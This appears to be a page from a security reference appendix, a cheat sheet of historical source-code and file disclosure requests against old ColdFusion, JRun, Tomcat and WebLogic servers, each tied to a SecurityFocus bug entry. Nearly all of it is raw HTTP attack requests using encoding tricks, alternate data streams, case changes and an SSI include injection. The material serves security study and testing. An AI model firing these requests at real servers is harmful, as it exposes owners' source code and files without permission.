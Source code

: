 ## Source Code Discovery Patched Exploits

> This appendix contains a list of all the major source code disclosure techniques discovered over the years. Many of them are specific to particular bugs in particular versions of software. Others are generic across platforms and have been known to reappear contrary to what the vendors say.

#### Source Code, File, and Directory Disclosure Cheat Sheet

__Allaire ColdFusion__

1. GET /CFDOCS/snippets/viewexample.cfm?viewexample.cfm Tagname=<relative path to CFM file> HTTP/1.0
  - http://www.securityfocus.com/bid/115

__Allaire JRun Alternative Data Stream__

1. GET /file.jsp::$DATA HTTP/1.0
  - http://www.securityfocus.com/bid/3664

__Allaire JRun Server Side Include__

- http://www.securityfocus.com/bid/3589

1. GET /file HTTP/1.0
1. Content Length: <length of filename + 28> <!—#include virtual="<filename>"—>

__Apache Tomcat__

- http://www.securityfocus.com/bid/2527

1. GET /file.js%70 HTTP/1.0
1. GET /file%252ejsp HTTP/1.0

__BEA WebLogic Case Sensitive File Extension__

- http://www.securityfocus.com/bid/1328

1. GET /file.JSP HTTP/1.0
1. GET /file.jsP HTTP/1.0
1. GET /file.Jsp HTTP/1.0

__BEA WebLogic 5.1__

1. GET /file.js%70 HTTP/1.0
  - http://www.securityfocus.com/bid/2527

__BEA WebLogic FileServlet__

1. GET /ConsoleHelp/file.jsp HTTP/1.0
  - http://www.securityfocus.com/bid/1518

__BEA WebLogic /file/__

1. GET /file/file.jsp HTTP/1.0
  - http://www.securityfocus.com/bid/1378

__BEA WebLogic /*.shtml/__

1. GET /*.shtml/file.jsp HTTP/1.0
  - http://www.securityfocus.com/bid/1517
